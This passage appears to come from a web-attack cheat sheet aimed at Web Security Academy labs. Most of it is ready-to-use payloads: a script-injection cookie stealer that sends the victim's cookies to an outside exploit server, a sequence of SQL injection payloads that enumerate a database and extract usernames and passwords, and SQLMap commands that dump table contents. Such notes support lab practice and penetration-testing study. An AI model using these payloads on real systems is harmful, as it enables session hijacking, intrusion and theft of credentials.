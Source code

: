 ### Cookie stealer

```html
<script>
location = "https://ID.web-security-academy.net/?parameter=" + encodeURIComponent("<iframe src='https://exploit-ID.exploit-server.net/?cookies=" + document.cookie + "'>");
</script>
```
### Database Enumeration

Determine the number of columns of the target:
```sql
1 ORDER BY 1-- -
```

or

```sql
1 UNION SELECT NULL,NULL-- -
```

List databases:
```sql
1 UNION select schema_name from INFORMATION_SCHEMA.SCHEMATA-- -
```

List tables:
```sql
1 UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='public'-- -
```

List columns:
```sql
1 UNION select COLUMN_NAME || ':' || TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

Get credentials:
```sql
1 UNION select username || ':' || password from users-- -
```

---

## Tools

### SQLMap

Basic usage (including OR tests)
```sql
sqlmap -u 'http://TARGET_IP:TARGET_PORT/example.php?id=*' --level 2 --risk 2 --batch --dump --random-agent
```
`*` specifies the test location.

Adding prefix and suffix:
```sql
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
